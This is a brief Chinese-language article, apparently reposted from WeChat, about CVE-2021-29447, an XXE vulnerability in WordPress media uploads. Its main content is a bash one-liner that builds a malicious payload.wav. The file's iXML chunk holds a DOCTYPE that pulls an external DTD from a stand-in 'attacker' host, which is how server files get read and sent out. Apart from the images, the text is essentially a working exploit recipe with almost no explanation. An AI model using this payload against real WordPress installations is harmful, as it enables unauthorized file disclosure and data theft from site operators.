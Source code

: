 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Ma4Flq9oNiN4XAa90jySUg)

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV0icYT2viapWYLaVPOic9fiadJePcPyAcUUx9txdKU9YYth7icBVBzLcRMHRkN7FibYVpIOLKbQ1lT55UkQ/640?wx_fmt=png)

CVE-2021-29447  WordPress XXE

你不需要一个 wave 文件来设置 iXML 元数据！

bash：

```
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://attacker/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV0icYT2viapWYLaVPOic9fiadJeKe1oGfrTMpoPd0XNg75vAPNq2Jiagfic7xmamuZTnzCmk3hnXwraQczQ/640?wx_fmt=png)